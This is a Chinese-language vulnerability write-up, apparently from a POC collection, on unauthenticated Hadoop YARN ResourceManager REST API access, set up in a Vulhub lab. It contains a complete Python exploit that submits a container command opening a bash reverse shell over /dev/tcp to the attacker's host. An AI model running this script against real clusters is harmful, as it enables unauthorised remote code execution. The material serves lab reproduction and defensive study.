


# Hadoop YARN ResourceManager 未授权访问

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：YARN REST 可达且无安全认证，可分配/提交 Application 并调度容器
- 证据范围：先申请 ID 再提交作业的流程连贯，完整 Python 示例与官方 REST 文档相关联。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺认证/网络配置、测试版本及运行账户边界说明
- 没有检查 API 状态和作业调度结果；回连受网络/Shell条件约束
- PDF Markdown 链接目标含裸空格，渲染需规范

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

- 参考阅读： [http://archive.hack.lu/2016/Wavestone%20-%20Hack.lu%202016%20-%20Hadoop%20safari%20-%20Hunting%20for%20vulnerabilities%20-%20v1.0.pdf](http://archive.hack.lu/2016/Wavestone - Hack.lu 2016 - Hadoop safari - Hunting for vulnerabilities - v1.0.pdf)

## 环境搭建

Vulhub运行测试环境

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8088`即可看到Hadoop YARN ResourceManager WebUI页面。



## 漏洞复现

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API (https://hadoop.apache.org/docs/r2.7.3/hadoop-yarn/hadoop-yarn-site/ResourceManagerRest.html) 也可以提交任务执行。

利用过程如下：

1. 在本地监听等待反弹 shell 连接
2. 调用 New Application API 创建 Application
3. 调用 Submit Application API 提交

参考 [exp 脚本](https://github.com/vulhub/vulhub/blob/master/hadoop/unauthorized-yarn/exploit.py)

```python
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

成功反弹shell：




---

> 来源：Threekiii/Awesome-POC
